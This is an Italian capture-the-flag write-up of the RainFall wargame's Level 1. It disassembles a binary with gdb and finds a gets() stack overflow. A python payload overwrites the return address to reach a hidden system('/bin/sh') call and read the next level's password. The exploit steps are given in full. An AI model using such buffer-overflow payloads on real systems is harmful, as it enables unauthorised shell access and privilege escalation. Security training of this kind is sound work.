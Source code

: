 # Level 1

L'eseguibile presente nella home richiede un input e termina la sua
esecuzione. Per scoprire qualcosa in più esegui il comando: 
`readelf -p '.rodata' level1` ed ottengo il seguente output:
```
String dump of section '.rodata':
  [     8]  Good... Wait what?^J
  [    1c]  /bin/sh
```
Queste stringhe sono presenti nel binario ma nell'esecuzione non
appaiono, dunque non resta che aprire `gdb`:
```
level1@RainFall:~$ gdb -q level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```
Con il comando `info functions` abbiamo l'elenco delle funzioni
presenti e scopriamo che ci sono due funzioni scritte dall'utente 
`main` e `run`.
Con `disass main` vediamo che viene dichiarato 
probabilmente un array da 64 byte per poi esser passato alla funzione
`gets` che caricherà l'input dell'utente nel buffer da 64 byte.
Con `disass run` possiamo leggere una funzione che stampa il testo `Good... Wait what?\n`
tramite `fwrite` e successivamente chiama la funzione `system` passando come argomento
`/bin/sh`.

Sull'input inserito dall'utente non abbiamo alcun controllo dunque basterà
inserire una quantità tale di caratteri da sovrascrivere l'indirizzo in `eip`
sostituendolo con l'indirizzo della funzione `run` ovvero `0x08048444` così
portiamo l'esecuzione del programma sulla funzione `run` e avremo una shell
con i giusti permessi.

Sfruttando il sito [Buffer Overflow EIP Offset String Generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)
generiamo una stringa lunga 80 caratteri così da individuare l'offset dell'indirizzo
del registro contenuto in `eip`:
```
level1@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac" > /tmp/exploit
level1@RainFall:~$ gdb -q level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) r < /tmp/exploit
Starting program: /home/user/level1/level1 < /tmp/exploit

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```
Dal messaggio di errore possiamo effettivamente capire che l'offset si trova
al carattere 76. Quindi basta scrivere in input 76 caratteri più l'indirizzo della
funzione `run`:
```
level1@RainFall:~$ python -c 'print("a"*76+"\x44\x84\x04\x08")' > /tmp/exploit
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Utilizziamo il carattere `-` per far si che cat non invii il segnale di `EOF`
e la shell rimanga aperta.
Adesso non resta che:
```
level1@RainFall:~$ su level2
Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
level2@RainFall:~$
```
